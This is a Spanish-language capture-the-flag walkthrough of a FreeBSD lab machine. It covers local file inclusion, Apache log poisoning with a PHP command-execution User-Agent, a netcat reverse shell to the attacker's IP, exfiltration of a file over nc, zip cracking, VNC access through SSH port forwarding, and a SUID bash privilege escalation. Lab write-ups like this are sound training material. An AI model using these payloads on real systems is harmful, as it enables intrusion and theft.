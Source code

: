 ## Summary

- IP -> 10.10.10.84
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2
    - 80 -> Apache httpd 2.4.29


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
Que es FreeBSD: Es un sistema de codigo abierto para computadoras basado en las CPU de arquitectura x86, Pentium. En la actualidad se ejecuta en once arquitectiras distintas como Alpha, AMD64, IA-64, MISP, PowerPC y UltraSPARC.

Buscamos en la Webpage:

Podemos ponerle al **listfile.php** -> Encontramos un **pwdbackup.txt** que al momento de ponerlo, nos da un passwd encodeada 13 veces en base64 por lo que podemos ver.
- Comando -> **curl -s -X GET "http://10.10.10.84/browse.php?file=pwdbackup.txt" | grep -v "password" | tr -d '\\n' | base64 -d | base64 -d** Miramos las cabeceras de la pagina web (tr=quitamos el salto de linea), hacerlo 13 veces la decode de base 64

Hasta que nos de la passwd.

Si no esta sanitizado podemos hacer un Local File Inclution (LFI) en la Webpage
http://10.10.10.84/browse.php?file=/etc/passwd Y cargamos el archivo passwd de la maquina y ahi podremos ver los usuarios existentes. Por lo que encontramos a charix



----------------
Otra Forma de hacer la maquina es cuando tenemos un LFI y podemos ejecutar comandos Ejecucion Remota de Comandos (RCE) , ahi podemos hacer un Log Poisoning y apuntar a archivos Logs.

Buscamos en Google Freebsd Apache /var/log file 
En FreeBSD la ruta es diferente:
	**/var/log/httpd-access.log** Para ver los log en la Webpage, esto se colocara despues del = de la url de arriba.
	http://10.10.10.84/browse.php?file=/var/log/httpd-access.log  De esta manera...

Ahora nos abrimos el BurpSuite. Para poder capturar la peticion de la url http://10.10.10.84/rce
Una vez dentro de BuroSuite, lo capturamos con la finalidad de que podamos ver el:

Y lo modificaremos en el Repeater
- User-Agent: Mozilla/5.0 ...

En donde ahí podremos borrar el contenido del User-Agent y colocar codigo php para hacer el envenenamiento (Poisoning)
El codigo php inicia ?php
- User-agent: <?p system($_GET['cmd']);  ?>

Ahora en el BurpSuite le damos en el boton Send del Repeater

Y lo que buscaremos injectando el codigo php es que cuando modifiquemos la url de esta manera:
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=whoami
Nos pueda interpretar los comandos que querramos

Sin desactivar el FoxyProxy de la web, nos ponemos a colocar firenetes comandos:
	whoami
	hostname
	ifconfig
	which nc

Quitamos el FoxyProxy de la web 
Ahora nos ponemos en escucha por el puerto 443 del netcat ya que confirmamos que lo tiene. 
- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux

Buscamos en Google 'Monkey pnetester reverse shell' y nos da una linea que debemos de poner en la url de la web para netcat, debe ser la segunda linea que encontremos en la pagina, ya que no sabemos si el netcat es antiguo o no.

- http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 443 >/tmp/f
	Colocamos nuestra ip en ese comando y el puerto del netcat 
	Debemos de modificar el **&** y pasarlo a formato url-encode que es **%26**

Y este nos da el usuario www


---


## User
Ahora nos conectamos por SSH:
- Comando -> **ssh < user>@< IP>** Para conectarnos por ssh

Podemos ver la primer flag user.txt

- Comando -> **ls -l** Miramos el contenido del directorio y sus permisos (l=ele)
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443 en nuestra maquina de atacante, maquinas Linux y lo que recibamos lo colocamos en el archivo secret.zip

- Comando -> **nc 10.10.17.4 443 < secret.zip** En la maquina victima hacemos esto para mandar el arhivo que hemos encontrado a la maquina de atacante.

- Comando -> **7z l secret.zip** (l=ele) Podemos ver el contenido interno del archivo zip, gz, bzip2, etc...
- Comando -> **7z x secret.zip** (l=ele) Podemos extraer el contenido interno del archivo zip, gz, bzip2, etc...

Como nos pide una passwd. Podemos usar la herramienta John para que primero nos de un Hash y despues crackear y obtener su passwd.

- Comando -> **zip2john secret.zip > hash** Para que nos devielva el Hash y asi despues poderlo crackear y el resultado del hash lo metemos a un archivo llamado 'hash'.
- Comando -> **john -w:/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash y como resultado no lo ha encontrado

Recordamos que tenemos una passwd y la colocamos para ver si es la misma. 

Una vez descargado el archivo, procedemos a ver le contenido 
- Comando -> **cat secret** Observamos el contenido del archivo, y miramos cosas raras.
- Comando -> **xxd secret** Para mirar los magic numbers del archivo

Ponemos en Google 'List of Signatures' para poder ver cual seria el resultado de los magic numbers. Y encontramos que es:
no es nada

Ahora seguiremos listando la maquina:
- Comando -> **netstat -na -p tcp** Podemos ver los puertos abiertos en la mquina 
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux
Encontramos un **tightvnc**. Esto es una aplicacion informatica de codigo abierto para administracion remota multiplataforma que utiliza el protocolo RFB deVNC para controlar panatlla de otro equipo de forma remota. Y los puerto que comunmente corre es el 5900-5901, 5800-5801

Tenemos el puerto 5901 abierto en la maquina victima, por lo que lo podemos usar para hacer la conexion con el viewer sin usar chisel. 
Ahora usaremos un Dinamic Port Forwarding 

Modificaremos el:
**nvim /etc/proxychains.conf** Modificaremo este archivo en nuestra maquina
	socks4 127.0.0.1 1080 -> Haremos que la conexion para nuestra maquina se efectue en el puerto 1080


## Root
- Comando -> **ssh < user>@< IP> -D 1080** Para conectarnos por ssh (D=Dinamic Port Forwarding) y colocamos el puerto que anteriormente habiamos configurado y le colocamos la passwd que teniamos de Charix
- Comando -> **proxychains vncviewer -passwd secret 127.0.0.1:5901** Nos permite conectarnos al vncviewer de una maquina remotamente
	passwd -> Archivo qiue habiamos encontrado con las passwd llamado secret

Podremos visualizar la flag root.txt

Ademas podemos darle privilegios al usuario Charix para que desde la conexion que ya tenemos por ssh podamos convertirnos en root. 
- Comando -> **chmod u+s /bin/bash** Para darle privilegios a la bash suid en este caso desde la interfaz remota
- Comando -> **ls -l /bin/bash** Miramos los privilegios de la bash en el usuario Charix
- Comando -> **/binbash** Colocamos ese comando en el usuario Charix y ya seriamos root